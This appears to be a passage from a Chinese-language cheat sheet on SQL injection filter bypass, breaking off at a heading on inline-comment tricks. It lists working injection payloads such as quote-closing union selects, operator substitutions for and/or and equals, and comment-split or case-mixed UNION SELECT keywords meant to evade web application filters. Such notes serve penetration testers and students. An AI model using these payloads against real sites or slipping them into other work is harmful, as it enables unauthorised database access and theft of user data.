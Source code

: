 ![image-20231207231554537](../../_Attachment/sql注入方法及绕过.assets/image-20231207231554537.png)


使用`between and:`

使用`between and:`

`between a and b：`

between 1 and 1; 等价于 =1

### or and xor not绕过：

`and=&& or=|| xor=| not=!`

### 绕过注释符

（#，–(后面跟一个空格））过滤：

`id=1' union select 1,2,3||'1`

最后的or '1闭合查询语句的最后的单引号，或者：

`id=1' union select 1,2,'3`

### 绕过等于号

使用like 、rlike 、regexp 或者 使用< 或者 >

### 绕过union，select，where等：

（1）使用注释符绕过：

常用注释符：//，-- , /\*\*/, #, --+, -- -, ;,%00,--a`

用法：U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user

（2）使用大小写绕过：

`id=-1'UnIoN/\*\*/SeLeCT`

（3）内联注释绕过：
